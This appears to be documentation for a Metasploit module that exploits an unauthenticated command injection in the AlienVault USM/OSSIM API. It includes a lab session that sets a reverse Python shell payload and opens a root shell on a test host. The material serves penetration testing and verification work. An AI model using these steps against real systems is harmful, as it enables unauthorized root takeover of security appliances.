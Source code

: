 ## Vulnerable Application

This module exploits a command injection vulnerability in the Alienvault USM/OSSIM API. It allows an unauthenticated user to execute arbitrary commands as root. The vulnerable code was introduced in version 5.3.4 and fixed in 5.3.6.

This module was tested against AlienVault USM 5.3.5

**Vulnerable Application Installation Steps**

Alienvault recently took down their download repository, which allowed users to download older versions. Unfortunately, all they now offer is the latest version for download unless you're a paying customer that has access to older releases. If you can find a mirror with 5.3.4 or 5.3.5 then a default installation of either of those will work for testing.

## Verification Steps

Below is an example of a successful exploit:

```
msf > use exploit/linux/http/alienvault_api_exec 
msf exploit(alienvault_api_exec) > set RHOST 192.168.56.102
RHOST => 192.168.56.102
msf exploit(alienvault_api_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf exploit(alienvault_api_exec) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(alienvault_api_exec) > check
[+] 192.168.56.102:40011 The target is vulnerable.
msf exploit(alienvault_api_exec) > run

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Executing payload...
[*] Command shell session 1 opened (192.168.56.101:4444 -> 192.168.56.102:51696) at 2017-04-13 12:30:20 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux VirtualUSMAllInOne 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
tail /etc/issue
=========================================================================
===================== http://www.alienvault.com  ========================
=========================================================================
====  Access the AlienVault web interface using the following URL:  =====
                         https://192.168.56.102/
=========================================================================


AlienVault USM 5.3.5 - \m - \l

```